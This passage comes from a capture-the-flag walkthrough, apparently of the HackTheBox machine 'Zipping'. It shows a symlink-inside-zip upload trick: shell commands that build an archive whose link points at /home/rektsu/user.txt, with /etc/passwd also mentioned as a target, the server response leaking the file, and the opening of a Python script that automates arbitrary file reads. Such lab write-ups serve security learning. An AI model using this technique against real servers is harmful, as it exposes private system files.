 It’s important to give `zip` the `--symlinks` argument, or else `zip` will follow the link and put a copy of my `/etc/passwd` into the archive.

It uploads just fine:

![image-20240108181524507](https://0xdf.gitlab.io/img/image-20240108181524507.png)

Clicking the link shows an empty PDF:

![image-20240108181023657](https://0xdf.gitlab.io/img/image-20240108181023657.png)

If I look in Burp, I’ll see that’s because the browser is trying to render a PDF, but the response isn’t a PDF:

![image-20240108181545476](https://0xdf.gitlab.io/img/image-20240108181545476.png)

That’s file read!

I’ll note the user on this box is rektsu, and there’s also a mysql user. In fact, I can make a payload that will return the user flag:

```
oxdf@hacky$ ln -s /home/rektsu/user.txt user.pdf
oxdf@hacky$ zip --symlinks user.zip user.pdf
  adding: user.pdf (stored 0%)

```

On viewing it:

```
HTTP/1.1 200 OK
Date: Mon, 08 Jan 2024 23:19:47 GMT
Server: Apache/2.4.54 (Ubuntu)
Last-Modified: Mon, 08 Jan 2024 23:19:46 GMT
ETag: "21-60e776efd7648"
Accept-Ranges: bytes
Content-Length: 33
Connection: close
Content-Type: application/pdf

ea9a4d59************************

```

#### Script

I’d like to make a script to make reading files from Zipping easier. I’ll walk through that in [this video](https://www.youtube.com/watch?v=NPlkZVm-C7M):

The final code is:

```
#!/usr/bin/env python3
import io
import re
import sys
import zipfile
import requests
from datetime import datetime

if len(sys.argv) < 3:
    print(f"Usage: {sys.argv[0]} <host> <target file path>")
    sys.exit()

host = sys.argv[1]
filepath = sys.argv[2]

zip_buffer = io.BytesIO()
```